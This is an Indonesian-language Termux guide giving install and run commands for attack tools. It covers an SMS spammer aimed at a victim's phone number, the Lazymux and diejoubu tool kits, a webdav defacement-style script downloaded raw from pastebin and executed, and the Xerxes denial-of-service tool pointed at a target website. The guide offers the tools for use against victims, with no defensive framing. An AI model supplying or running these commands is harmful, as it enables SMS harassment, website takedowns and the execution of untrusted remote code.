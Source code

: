 ———————————————————————
*1.Spammer SMS Grab
Install Spammernya dulu*
$pkg install python2
$pip2 install requests
$pkg install git
$git clone https://github.com/p4kl0nc4t/Spammer-Grab
$cd Spammer-Grab
$ls
$chmod +x spammer.py
$python2 spammer.py –delay 30 nomor korban.

—————————————————————————————
*Cara Install Lazymux di Termux*

$ pkg update && upgrade
$ pkg install python2
$ pkg install git
$ git clone https://github.com/Gameye98/Lazymux
$ cd Lazymux
$ chmod +x lazymux.py
$ python2 lazymux.py
—————————————————————————————
*2.Cara install tools daijobu*
Fungsinya nanti liat sendiri lah di dalem tools nya
$apt upgrade && apt update
$apt install php
$apt install git
Kalo udah selesai langsung masukan git nya dengan perintah
$git clone https://github.com/alintamvanz/diejoubu
$cd diejoubu
$cd v1.2
$php diejoubu.php
—————————————————————————————

3. Install webdav

$ apt update && upgrade
$ apt install python2
$ pip2 install urllib3 chardet certifi idna requests
$ apt install openssl curl
$ pkg install libcurl
$ ln -s /sdcard
$ cd sdcard
$ mkdir webdav
$ cd webdav
$ curl -k -O https://pastebin.com/raw/HnVyQPtR
$ mv HnVyQPtR webdav.py
$ python2 webdav.py
—————————————————————————————

*2. Xerxes*
$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80
